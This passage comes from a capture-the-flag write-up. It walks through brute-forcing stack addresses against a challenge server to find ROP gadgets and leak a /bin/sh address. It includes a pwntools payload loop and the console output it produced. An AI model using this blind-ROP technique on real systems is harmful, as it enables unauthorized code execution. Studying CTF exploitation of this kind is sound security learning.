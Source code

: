 ```
    
    payload = padding + p64(test_address)
    print(target.recvuntil(b'(Y/*) >>>'))
    target.sendline(payload)
    result = target.recvall(timeout=1)
    print(result)
    if len(result) > 2:
        print('winner')
        print(hex(test_address))
        print(i)
        target.close()
        break
    print('i is', i)
    target.close()
```
At the offset of i = 32, I got a hit that seems to just be printing out a portion of my input. I could make that work, but I decided that it might lead to issues scripting for additional gadgets.
```
b'----------------------------------------------------------------------------\n~ Would you like another push (Y/*) >>>'
b' ~ Would you like another push (Y/*) >>>'
b' ~ push 0x58585858; ret |'
b' 0x5588cf2fb1c0\n'
pop rax ret at  0x5588cf2fb1c4
b'~ Would you like another push (Y/*) >>>'
b' ~ push 0x0f050f05; ret |'
b' 0x5588cf2fb1cf\n'
syscall at 0x5588cf2fb1d1
b'~ Would you like another push (Y/*) >>>'
[+] Receiving all data: Done (16B)
[*] Closed connection to 0.cloud.chals.io port 21978
b' aaaaaaaa\x90\xb0/\xcf\x88U\n'
winner
0x5588cf2fb020
32
```
As a result, I made a slight adjustment to specifically look for a print of one of the strings that normally gets outputted to the console (if b'You stay the course' in result:) and got a hit at i=144.
```
syscall at 0x563245fc31d1
b'~ Would you like another push (Y/*) >>>'
[+] Receiving all data: Done (629B)
[*] Closed connection to 0.cloud.chals.io port 21978
b" ----------------------------------------------------------------------------\n ~ You stay the course, you hold the line you keep it all together        ~ \n ~ You're the one true thing I know I can believe in                      ~ \n ~ You're all the things that I desire you save me, you complete me       ~ \n ~                                              - Push, Sarah McLachlan.  ~ \n----------------------------------------------------------------------------\n<<< Push your way to /bin/sh at : 0x563245fc6050\n----------------------------------------------------------------------------\n~ Would you like another push (Y/*) >>> "
winner
0x563245fc3090
144
```
### Finding the BROP gadget (and controlling rdi and rsi!)
